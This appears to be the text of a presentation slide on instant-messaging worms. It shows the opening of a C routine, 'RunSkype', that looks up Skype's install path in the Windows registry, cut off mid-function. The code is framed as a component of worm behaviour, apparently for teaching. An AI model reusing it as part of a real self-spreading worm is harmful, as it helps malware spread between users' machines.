

IM Worms- Launch Skype
void RunSkype(void)
{
	HKEY hKey;
	char skype_path[MAX_PATH];
	DWORD len = MAX_PATH;
	STARTUPINFO inf_prog;  //Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
                     PROCESS_INFORMATION info_pr; //Contains information about a newly created process and its primary thread
	int user_ret;

                     #define ERROR MessageBox(NULL,"I could not find Skype !","Error!",MB_OK|MB_ICONERROR); \
	          ExitProcess(0);

                       /* path of skype in registry */
  	if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,"SOFTWARE\\Skype\\Phone",0, KEY_QUERY_VALUE,&hKey) != ERROR_SUCCESS){
			ERROR
		}

	if(RegQueryValueEx(hKey,"SkypePath",0,NULL,skype_path, &len) != ERROR_SUCCESS) {
			ERROR
		}

	RegCloseKey(hKey);